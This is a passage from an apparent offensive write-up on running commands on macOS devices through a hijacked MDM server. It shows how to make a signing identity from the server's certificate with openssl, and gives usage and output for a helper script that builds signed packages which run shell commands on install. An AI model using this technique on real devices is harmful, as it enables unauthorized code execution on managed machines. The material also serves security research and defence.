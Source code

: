 ## Executing Packages

### Signing

`mdmclient` will only execute packages that have been signed. If you do not use a signed package, it will silently fail. Usefully, the compromised device will install the TLS certificate of the MDM server (specified in the config) as a CA trusted for code sigining.

First, on an attacker box. Build a PFX file using the certificate and key from the MDM server.

```
openssl pkcs12 -export -out mdm.pfx -inkey mdm.key -in mdm.crt
```

Open the resulting pfx file to install it into the keychain.

The certificate can now be used as a signing identity. 


### pkg-cmd-helper

To automate the process of creating a signed package. I've put together a rough bash script to build packages that execute bash command, and subsequently sign them with an identity - [pkg-cmd-helper.sh](https://gist.github.com/rookuu/49ea14a50854542ca7f5cde70962e502).

```
➜  ./pkg-cmd-helper.sh -h
Command line helper to generate pkg files that execute commands.
Author: @rookuu

Syntax: gen.sh -i com.malicious.pkg -o installme.pkg [-s 'My Signing Identity'] command
options:
-h     Print this Help.
-i     Identifier for the package.
-o     File name for the output package.
-s     (optional) Identity to use when signing the package.

➜  ./pkg-cmd-helper.sh -i com.rookuu.pkg -o example.pkg -s 192.168.0.5 mkdir /tmp/hacked
Building in /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i
pkgbuild: Adding top-level preinstall script
pkgbuild: Wrote package to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp.pkg
productbuild: Wrote product to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp_dist.pkg
productsign: signing product with identity "192.168.0.5" from keychain /Library/Keychains/System.keychain
productsign: Wrote signed product archive to /var/folders/fc/lc78954d3mnfvn4wbz8_20nc0000gn/T/tmp.mmsY0R6i/temp_dist_signed.pkg
Done, see: example.pkg
```

## Commands Manual Quick Reference

The commands available to us are dependent on the Apple MDM protocol, a full list of commands can be found on Apple's developer docs [here](https://developer.apple.com/documentation/devicemanagement/commands_and_queries).
